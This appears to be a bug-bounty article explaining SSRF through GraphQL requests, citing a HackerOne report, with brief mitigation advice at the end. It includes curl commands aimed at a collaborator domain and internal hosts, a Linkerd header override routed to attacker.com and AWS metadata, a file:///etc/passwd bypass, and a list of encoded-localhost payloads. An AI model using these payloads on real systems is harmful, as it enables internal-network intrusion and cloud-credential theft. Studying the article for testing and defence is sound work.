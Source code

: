 ```yaml
---
description: 'Ref: https://hackerone.com/reports/1864188'
cover: broken-reference
coverY: 0
---
```


# 🤯 Understanding SSRF Vulnerabilities and Their Impact

## &#x20;:heavy\_multiplication\_x: [<mark style="color:red;">Twitter</mark>](https://twitter.com/Cipher0ps\_tech?t=MlqumIay8I49eWwhjgrotg\&s=09) :link: [<mark style="color:red;">Linkedin</mark>](https://www.linkedin.com/company/cipherops/) :tv: [<mark style="color:red;">Telegram</mark>](https://t.me/cipherops\_tech) :tada: <mark style="color:red;">I</mark>[<mark style="color:red;">nstagram</mark>](https://instagram.com/cipherops\_tech?igshid=MzNlNGNkZWQ4Mg==)



Server-Side Request Forgery (SSRF) is a critical security vulnerability that allows attackers to send unauthorized requests from the server to other internal or external resources. In this article, we will analyze some examples of SSRF queries and curl commands to better comprehend the severity of this issue.

#### SSRF Request with GraphQL Query Parameter

```json
query {
  allTicks(symbol:"TSLA", source:"https://[COLLABORATOR_DOMAIN]/") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xxx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://[COLLABORATOR_DOMAIN]/\"){ symbol server source ask time bid } }"}'
```

In this example, the GraphQL query contains a vulnerable parameter `source` that accepts a URL. An attacker can manipulate this URL to make the server send a request to their controlled domain, referred to as `[COLLABORATOR_DOMAIN]`, potentially leading to data leakage or unauthorized access.

#### SSRF Request with GET Parameters inside GraphQL JSON

```json
query {
  allTicks(symbol:"TSLA", source:"https://[COLLABORATOR_DOMAIN]/?do=something&") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://[COLLABORATOR_DOMAIN]//?do=something&\"){ symbol server source ask time bid } }"}'
```

Here, the GraphQL query includes GET parameters in the URL. An attacker can exploit this by modifying the parameters and potentially impacting the behavior of the server, leading to various security risks.

#### SSRF Request to Internal Host

```json
query {
  allTicks(symbol:"TSLA", source:"https://█████/?") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xxx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://https://████/?\"){ symbol server source ask time bid } }"}'
```

```markdown
# A tip onn ssrf from Twitter
#bugbountytip Found Linkerd service (look for headers such as “Via: linkerd” or “l5d-*”)? Try SSRF by overriding dtab via request header, e.g. “l5d-dtab: /svc/* => /$/inet/attacker.com/80” to reach your server or “l5d-dtab: /svc/* => /$/inet/169.254.169.254/80” for AWS metadata.

#Bugbountytip Got a SSRF? no metadata endpoints to hit? Try https://kubernetes.default.svc/metrics if you get a load crap come back jackpot you've hit the kubernetes API and this should indicate it's shit the bed time for any security team. (url can change)

SSRF are ❤️

file:///etc/passwd : Not authorized
file://\/\/etc/passwd : Work 😀

#BugBounty

SSRF payloads
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/
http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ 
http://0177.0.0.1/
http://2130706433/ = http://127.0.0.1
http://3232235521/ http://192.168.0.1
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1
HTTP
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
#kongsec

If you have a blind SSRF that can only read images (but for some reason can't read ICO files), try and find Confluence running on the internal network and request /images/icons/linkext7.gif to prove that you can access internal resources

```

{% embed url="https://x.com/chybeta/status/1176165964196376576?s=20" %}

<img src="https://2207729183-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LbWrDBBrbM1WtGeIKRO%2F-MTAEQ3wRjUmCfcVCv3d%2F-MTAErI78RbCVBhg8jGj%2Fimage.png?alt=media&#x26;token=f90e59f3-c38b-48ea-b8b3-e7f1484bff66" alt="" data-size="original">



In this instance, the GraphQL query includes a modified URL with the placeholder `█████`, suggesting an attempt to perform an SSRF request to an internal host. If successful, this could expose sensitive information or services running on the internal network.

#### Conclusion

SSRF vulnerabilities are serious threats that require immediate attention from developers and security teams. To mitigate SSRF risks, it is essential to validate and sanitize user-provided URLs and limit access to sensitive internal resources.

Remember, proactive security measures and regular vulnerability assessments are crucial in maintaining a robust and secure web application. Stay vigilant, and always prioritize cybersecurity to protect both your users and your organization.

***
